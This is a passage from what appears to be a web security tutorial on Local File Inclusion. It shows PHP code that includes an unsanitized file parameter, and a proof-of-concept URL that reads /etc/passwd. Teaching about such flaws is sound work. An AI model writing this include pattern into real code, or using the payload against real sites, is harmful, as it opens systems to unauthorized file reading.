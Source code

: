     <figcaption>Web Application.</figcaption>
</figure>

We have a search bar where we can look for any file. The web application might use code similar to this:

```php
<?php
  $file = $_GET['file'];
  if (isset($file)){
    include($file);
  }
?>
```

This code expects a `file` parameter containing the file we pass to the search form. If we input a file like `hi.php`, the variable will hold that string, referencing the `hi.php` file in the same directory as the web application file.

If we perform the search, the URL of our web app will change to:

```url
http://domain.com/tests/index.php?file=hi.php
```

<figure markdown="span">
    ![Result of applying basic LFI](../../assets/posts/2025/04/06/BasicLFI.png)
    <figcaption>Result of applying basic LFI.</figcaption>
</figure>

As a proof of concept, we attempt to access the file containing user configuration on Linux systems, the `/etc/passwd` file. Since the `file` parameter input is not sanitized, an attacker could write the following in the web application URL:

```url
http://domain.com/tests/index.php?file=/etc/passwd
```

<figure markdown="span">
    ![Accessing the /etc/passwd file](../../assets/posts/2025/04/06/BasicLFI2.png)
    <figcaption>Accessing the /etc/passwd file.</figcaption>
</figure>
